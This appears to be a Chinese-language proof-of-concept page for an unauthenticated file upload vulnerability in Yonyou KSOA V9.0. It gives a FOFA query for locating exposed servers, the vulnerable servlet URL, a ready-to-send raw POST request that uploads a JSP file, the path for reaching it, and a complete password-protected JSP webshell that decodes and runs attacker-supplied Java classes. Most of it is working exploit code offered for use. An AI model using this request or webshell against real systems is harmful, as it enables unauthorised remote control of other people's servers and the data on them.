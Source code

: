 # 用友时空 KSOA V9.0 文件上传漏洞

## 漏洞描述

用友时空 KSOA 是用友网络科技股份有限公司建立在 SOA 理念指导下研发的新一代产品，其中 com.sksoft.bill.ImageUpload 存在前台文件上传漏洞，攻击者可以在不登陆的情况下上传恶意 Webshell，控制系统权限。

## FOFA

```
app="用友-时空KSOA"
```

## 漏洞复现

登录界面：

![image-20230601102416204](images/image-20230601102416204.png)

漏洞 URL：

```
/servlet/com.sksoft.bill.ImageUpload?filepath=/&filename=
```

发送数据包：

```
POST /servlet/com.sksoft.bill.ImageUpload?filepath=/&filename=1.jsp HTTP/1.1
Host: your-ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://en.fofa.info/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: JSESSIONID=825A011F31259CCA1649D5DF4849635E
Connection: close
Content-Length: 1

<%!
your-payload
%>
```

![image-20230601102530120](images/image-20230601102530120.png)

访问 /pictures/1.jsp 即可。

### Webshell

密码：passwd

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

